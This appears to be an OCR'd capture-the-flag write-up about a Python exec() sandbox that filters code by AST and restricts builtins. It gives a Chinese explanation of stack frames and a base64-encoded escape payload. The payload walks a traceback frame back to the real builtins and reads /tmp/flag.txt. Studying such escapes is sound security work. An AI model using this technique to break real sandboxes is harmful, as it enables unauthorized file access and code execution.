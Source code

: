 ```python
            raise RuntimeError(f"Access to attribute '{node.attr}' is forbidden!")
        self.generic_visit(node)

def chall():
    user_input = input("Give me your code after base64 encoding it: ")
    code = base64.b64decode(user_input).decode('utf-8')
    
    if not user_input:
        print("Empty input!")
        return
    
    try:
        # 使用 AST 解析和验证代码
        tree = ast.parse(code)
        visitor = RestrictedNodeVisitor()
        visitor.visit(tree)
        
        # 创建受限的执行环境
        safe_builtins = {
            "print": print,
            "filter": filter,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": safe_builtins}
        
        # 执行用户代码
        exec(code, safe_globals, {})
        
        print("Code executed successfully!")
            
    except SyntaxError as e:
        print(f"Syntax Error: {e}")
    except RuntimeError as e:
        print(f"Runtime Error: {e}")
    except Exception as e:
        print(f"Execution Error: {type(e).__name__}: {e}")
```

**在Python中，栈帧（Stack Frame）是解释器用于管理函数调用的一种内部数据结构。每当一个函数被调用时，Python就会创建一个栈帧对象，其中包含了该函数执行所需的“上下文”，例如局部变量、传入的参数以及当前指令的位置（返回地址）。**

```python
import base64
code = """
try:
    raise Exception()
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
    print(builtins.open('/tmp/flag.txt').read())
"""

encoded = base64.b64encode(code.encode('utf-8')).decode('utf-8')
print(encoded)

dHJ5OgogICAgcmFpc2UgRXhjZXB0aW9uKCkKZXhjZXB0IEV4Y2VwdGlvbiBhcyBlOgogICAgZnJhbWUgPSBlLl9fdHJhY2ViYWNrX18udGJfZnJhbWUuZl9iYWNrCiAgICBidWlsdGlucyA9IGZyYW1lLmZfZ2xvYmFsc1snX19idWlsdGluc19fJ10KICAgIHByaW50KGJ1aWx0aW5zLm9wZW4oJy90bXAvZmxhZy50eHQnKS5yZWFkKCkp
```
